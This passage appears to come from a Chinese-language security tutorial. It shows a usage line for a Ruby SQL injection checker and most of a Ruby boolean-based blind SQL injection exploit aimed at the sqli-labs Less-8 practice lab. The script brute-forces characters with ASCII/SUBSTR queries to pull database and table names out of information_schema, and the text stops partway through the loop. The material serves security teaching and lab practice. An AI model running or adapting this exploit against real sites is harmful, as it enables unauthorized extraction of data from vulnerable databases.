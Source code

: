 ```
ruby sqli.rb http://testasp.vulnweb.com/showforum.asp?id=0
[+] The http://testphp.vulnweb.com/artists.php?artist=1' is vulnerable! 
```

## 基于布尔值的 SQLi Exploit 脚本

这是一个针对 [sqli-labs](https://github.com/Audi-1/sqli-labs) 可能存在漏洞的应用程序的基于布尔值的 SQLi 攻击。

```
#!/usr/bin/env ruby
# Boolean-based SQLi exploit
# Sabri Saleh | @KINGSABRI
#
require 'open-uri'

if ARGV.size < 1
  puts "[+] ruby #{__FILE__} <IP ADDRESS>"
  exit 0
else
  host = ARGV[0]
end

# Just colorizing outputs
class String
  def red; colorize(self, "\e[1m\e[31m"); end
  def green; colorize(self, "\e[1m\e[32m"); end
  def bold; colorize(self, "\e[1m"); end
  def colorize(text, color_code)  "#{color_code}#{text}\e[0m" end
end

# SQL injection
def send_bbsqli(url, query)
  begin

    response = open(URI.parse( URI.encode("#{url}#{query}") ))

    if !response.read.scan("You are in...........").empty?
      return 1 # TRUE
    end

  rescue Exception => e
    puts "[!] Failed to SQL inject #{e}".red 
    exit 0
  end
end

url = "http://#{host}/sqli-labs/Less-8/index.php?id="

puts "[*] Start Sending Boolean-based SQLi".bold

extracted = []
(1..100).map do |position|
  (32..126).map do |char|
     puts "[*] Brute-forcing on Position: ".bold + "#{position}".green + " | ".bold + "Character: ".bold + "#{char} = #{char.chr}".green

     # Put your query here 
#      query = "1' AND (ASCII(SUBSTR((SELECT DATABASE()),#{position},1)))=#{char}--+"
     query = "1' AND (ASCII(SUBSTR((SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1),#{position},1)))=#{char}--+"
     result = send_bbsqli(url, query)
         if result.eql? 1
           puts "[+] Found character: ".bold + "#{char.to_s(16)} hex".green
```